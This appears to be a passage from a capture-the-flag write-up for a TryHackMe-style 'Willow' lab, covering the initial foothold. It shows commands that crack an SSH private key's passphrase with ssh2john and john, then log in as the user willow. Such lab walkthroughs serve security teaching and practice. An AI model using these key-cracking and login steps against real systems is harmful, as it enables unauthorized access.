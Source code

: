 # Initial Foothold

**SSH into willow via the decrypted SSH private key:**
```
┌──(root💀siunam)-[~/ctf/thm/ctf/Willow]
└─# cp decypted_private_key.txt willow_id_rsa
                                                                                                                      
┌──(root💀siunam)-[~/ctf/thm/ctf/Willow]
└─# chmod 600 willow_id_rsa

┌──(root💀siunam)-[~/ctf/thm/ctf/Willow]
└─# ssh -i willow_id_rsa willow@$RHOSTS
[...]
Enter passphrase for key 'willow_id_rsa': 
```

Ops. It has a passphrase for the private SSH key. Let's crack it via `ssh2john` and `john`:

```
┌──(root💀siunam)-[~/ctf/thm/ctf/Willow]
└─# ssh2john willow_id_rsa > willow.hash
                                                                                                                         
┌──(root💀siunam)-[~/ctf/thm/ctf/Willow]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt willow.hash 
[...]
{Redacted}       (willow_id_rsa)     
```

**SSH into willow again!**
```
┌──(root💀siunam)-[~/ctf/thm/ctf/Willow]
└─# ssh -i willow_id_rsa willow@$RHOSTS                       
Enter passphrase for key 'willow_id_rsa': 
sign_and_send_pubkey: no mutual signature supported
```

Hmm... I googled about this error, and this is happening is because we didn't offer the RSA algorithm. To fix this issue, I'll use `-o 'PubkeyAcceptedKeyTypes +ssh-rsa'` in `ssh`:

```
┌──(root💀siunam)-[~/ctf/thm/ctf/Willow]
└─# ssh -i willow_id_rsa willow@$RHOSTS -o 'PubkeyAcceptedKeyTypes +ssh-rsa'
Enter passphrase for key 'willow_id_rsa': 




	"O take me in your arms, love
	For keen doth the wind blow
	O take me in your arms, love
	For bitter is my deep woe."
		 -The Willow Tree, English Folksong




willow@willow-tree:~$ whoami;hostname;id;ip a
willow
willow-tree
uid=1000(willow) gid=1000(willow) groups=1000(willow),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),110(lpadmin),113(scanner),119(bluetooth)
[...]
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:a7:6d:8f:85:79 brd ff:ff:ff:ff:ff:ff
    inet 10.10.220.10/16 brd 10.10.255.255 scope global eth0
```
